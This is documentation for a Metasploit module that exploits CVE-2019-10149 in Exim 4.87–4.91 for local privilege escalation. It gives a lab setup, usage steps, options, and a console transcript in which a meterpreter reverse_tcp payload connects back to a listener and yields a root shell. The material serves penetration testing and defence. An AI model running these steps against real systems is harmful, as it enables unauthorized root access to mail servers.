 # Vulnerable Application

Exim 4.87 - 4.91 Local Privilege Escalation

This module implements a flaw found in Exim versions 4.87 to 4.91 (inclusive). Improper validation of recipient address in deliver_message() function in /src/deliver.c may lead to remote command execution (CVE-2019-10149).

Both meterpreter shell and classic shell are supported. The exploit will upload the specified `payload`, set the suid bit, and execute it to create a new root session. In order for the new session to be a root one, both `PrependSetuid` and `PrependSetgid` must be set to true (which is the default configuration for the exploit), and the `WritableDir` must be mounted without `nosuid`.

# Creating A Testing Environment

You basically just need to have a exim (between 4.87 and 4.91 inclusive) running and listening on a port (port 25 by default).
For my tests, I used a VM with Ubuntu 18.04 LTS and exim 4.89 (I tested all the versions from 4.87 to 4.91). The exim source code can be downloaded from the official website (all the old versions can be found).
You can also use this good Docker image which sets up a container with a vulnerable exim version running (https://github.com/dhn/exploits/tree/master/CVE-2019-10149).

Before using the exploit, make sure exim is actually listening on a port (it may sound stupid, but I struggled a bit when creating a testing environment). However, you should not have any problem if you use the Docker image linked above.

# Verification Steps

1. `use exploit/linux/local/exim4_deliver_message_priv_esc`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

# Options

## PAYLOAD

Set this option to choose which type of root session you want to create (obviously you should try a meterpreter payload first).

## EXIMPATH

The path to the exim executable that is running on the target machine. This is used to check the version of exim to know whether it is vulnerable. If you let this option unset, the exploit will assume that the directory of exim is in the `$PATH` environment variable. 

## EXIMPORT

The port that exim is listening to. On most cases it will be port 25 (which is the default).

## WritableDir

A directory where we can write files (default is /tmp).


# Scenarios

## Privilege escalation starting with a meterpreter shell

```
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > 
Background session 1? [y/N]  
msf5 exploit(multi/handler) > use exploit/linux/local/exim4_deliver_message_priv_esc 
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set session 1
session => 1
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lhost 192.168.0.50
lhost => 192.168.0.50
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lport 13371
lport => 13371
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set EXIMPATH /usr/exim/bin/exim
EXIMPATH => /usr/exim/bin/exim
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > check
[*] The target appears to be vulnerable.
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > exploit

[*] Started reverse TCP handler on 192.168.0.50:13371 
[*] Payload sent, wait a few seconds...
[*] Sending stage (985320 bytes) to 192.168.0.80
[*] Meterpreter session 2 opened (192.168.0.50:13371 -> 192.168.0.80:45562) at 2019-07-07 23:46:37 +0100
[+] Deleted /tmp/eMhzFtUYGQ
[+] Check session 2, you should have a root shell!

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.0.80
OS           : Ubuntu 18.04 (Linux 4.18.0-25-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
